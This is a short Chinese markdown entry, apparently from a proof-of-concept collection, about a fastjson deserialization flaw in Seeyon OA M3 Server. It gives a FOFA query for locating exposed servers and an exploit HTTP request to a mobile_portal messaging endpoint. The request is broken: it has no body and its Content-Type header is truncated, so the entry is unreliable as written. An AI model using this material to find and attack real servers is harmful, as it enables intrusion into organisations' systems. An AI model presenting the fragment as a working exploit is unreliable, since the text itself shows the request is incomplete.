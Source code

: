 
## 致远OA M3 Server 反序列化漏洞

## fofa
```
"M3-Server 已启动"
```

根据群友说，这个漏洞是fastjson反序列化
## poc
```
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencod


```
![ef21d114d1965815537db98570d2daf7](https://github.com/wy876/POC/assets/139549762/b3609c72-0516-4c69-a64f-62c86fffb30d)

## 漏洞分析
```
https://mp.weixin.qq.com/s/czbhaf7jpNmgjAt-OFWmIA
```
